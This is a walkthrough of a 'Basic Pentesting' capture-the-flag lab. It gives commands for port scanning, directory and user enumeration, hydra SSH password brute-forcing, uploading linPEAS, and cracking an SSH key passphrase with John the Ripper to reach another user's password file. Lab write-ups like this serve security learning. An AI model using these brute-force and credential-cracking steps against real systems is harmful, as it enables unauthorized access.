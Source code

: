  # Basic Pentesting challenge walkthrough 
 
![](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/images/peass.png)


Tools used for the challenge : 
- nmap
- gobuster 
- enum4linux 
- hydra
- JohnTheRipper

## Port scanning 

```
nmap -sC -sV -oN output.txt  IP` 
```
`-sC` is used to scan scripts of type “safe” and “intrusive” by default. 
`-sV` tests the opened ports to determine the services et their version. 
`-oN` will create a file with the command ouput. 

> Result will show some opened ports :
22 (ssh), 80 (http), 139, 445   

## Enumeration 
### 1. Gobuster

Gobuster is used for the hidden directories search. It works with wordlist composed of widely used terms to describe paths.

```
gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://IP
```
> Exposes directory discovered where some paths are accessibles :
_ /development

### 2. enum4linux

enum4linux is used to list different users available.

```
enum4linux -a IP
```

> Returns :
usernames ( $USER ) 

## Password Discovery

hydra is an kali integrated tool for bruteforce.

```
hydra -l $USER -P /usr/share/wordlists/rockyou.txt.gz ssh://IP
```

> Returns : 
password in plain text

## Privileges Escalation

Since `/etc/shadow` gives us a **permission denied** message, we have to find sudo user password.

Let's try to find some interesting stuff with `PEASS - Privilege Escalation Awesome Scripts SUITE` [github link](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

Once it's downloaded, let's upload this by `ssh` with `scp` :

```
scp /path/to/linpeas.sh $USER@IP:/dev/shm
```
`/dev/shm`: temporary directory writable and readable from a guest session

> Discovery : 
Path to ssh key

We can use it to access sudo user session **BUT** we are in front of a passphrase needed. 

### 1. Passphrase cracking

We'll use JohnTheRipper package.

Usage : 
```
> python3 ssh2john rsa_public_key > res.txt
> ./john res.txt --wordlist=/usr/share/wordlists/rockyou.txt.gz
```

## Final Flag 

After logging on the sudo user with the ssh key + the passphrase we can discover his password with : 
```
cat $HOME/pass.bak 
```

**Done!**













